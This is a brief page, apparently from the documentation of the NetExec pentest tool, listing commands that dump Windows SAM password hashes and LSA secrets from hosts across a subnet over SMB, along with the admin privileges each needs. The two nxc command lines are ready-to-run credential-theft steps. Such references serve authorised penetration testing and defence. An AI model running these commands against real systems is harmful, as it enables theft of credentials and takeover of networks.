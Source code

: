 # Credentials Dumping

### The following examples use a username and plaintext password although user/hash combos work as well.

# Dump SAM

## Dump SAM hashes using methods from secretsdump.py

## You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

#### #~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam

# Dump LSA

## Dump LSA secrets using methods from secretsdump.py

## Requires Domain Admin or Local Admin Priviledges on target Domain Controller!

#### #~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa

